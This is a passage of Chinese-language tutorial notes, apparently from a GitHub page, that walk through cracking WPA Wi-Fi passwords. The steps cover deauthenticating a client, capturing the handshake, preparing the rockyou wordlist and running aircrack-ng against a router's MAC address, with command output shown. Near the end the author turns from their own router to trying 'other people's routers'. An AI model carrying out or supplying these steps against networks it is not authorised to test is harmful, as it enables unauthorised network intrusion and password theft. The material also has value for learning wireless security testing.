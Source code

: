      这里如果你用这个命令攻击自己的手机. 
      这时候去看手机就会发现wifi断开几秒 然后重连了.说明这个攻击命令有有效的.
      手机重连后等几秒就能在 上一步的第一行就

      ❗️❗️ 如果获取了握手包.
      CH  6 ][ Elapsed: 3 mins ][ 2017-04-26 07:55
      这行会变成类似... 多出个 handshake 来.这时候就说明抓到握手包了.可以停止抓包了.
      CH  3 ][ Elapsed: 42 s ][ 2017-04-26 07:56 ][ WPA handshake: 6C:B0:CE:BD:D1:5B

🔵 抓包文件
    🔅 cd ~
    🔅 ls -l
        total 332
        -rw-r--r-- 1 root root 293246 Apr 26 07:32 -01.cap
        -rw-r--r-- 1 root root    568 Apr 26 07:32 -01.csv
        -rw-r--r-- 1 root root    584 Apr 26 07:32 -01.kismet.csv
        -rw-r--r-- 1 root root   3786 Apr 26 07:32 -01.kismet.netxml

        好几个文件. 主要就是 .cap 文件.
        每次抓包都会自动给你重命名. -01.cap ; -02.cap ; -03.cap... 等等.方便你区分.

🔵 结束监听模式
    airmon-ng stop wlan0mon

🔵 准备字典

    Kali Linux自带的rockyou字典:  cd /usr/share/wordlists/rockyou.txt.gz
    解压后才能用：                gzip -d /usr/share/wordlists/rockyou.txt.gz

    cd /usr/share/wordlists/rockyou.txt
    这文件很大的 11111111 88888888 都在里面.说明这个字典还是不错的.

🔵 破解(VM Kali):

    sudo aircrack-ng -a2 -b 6C:B0:CE:BD:D1:5B -w /usr/share/wordlists/rockyou.txt /root/-01.cap
        -a2 不管.
        -b 后面是 路由器Mac地址.
        -w 后面是 字典路径
        /root/-01.cap 是 .cap 文件路径

🔵 破解(Mac): 复杂密码字典 (22万条.3MB大小文件. 真实密码在文件尾部.)
    👁‍🗨 22万条密码.两分钟也就跑完了. 很快的. 重点是密码字典!!!
    sudo aircrack-ng -w /Users/v/Desktop/dic/cain.txt -b 6c:b0:ce:bd:d1:5b /tmp/airportSniffCd2nGz.cap
        -b 后面是 路由器Mac地址.
        -w 后面是 字典路径



❤️ 密码字典

    重点的重点就是字典! 字典里面有对方密码. 就能找出那个密码.

    好的密码字典一个，应包含常见的弱密码、手机号、姓名生日组合、各大网站泄露的密码、英语单词等等。
    如果使用字典破解不了，说明密码还算复杂；暴力穷举更是费时费力。（论复杂密码的重要性）。

    淘宝好像有跑字典服务???
    用GPU跑字典. 快很多很多..

⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️---字典破解实战---⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️
 之前是自己的路由器来试验.下面来试试别人的路由器.
 用密码字典来暴力破解成功率最主要就是看你的字典. 还有就是对方密码复杂度..
 没事别用这个.... 成功率低!!!

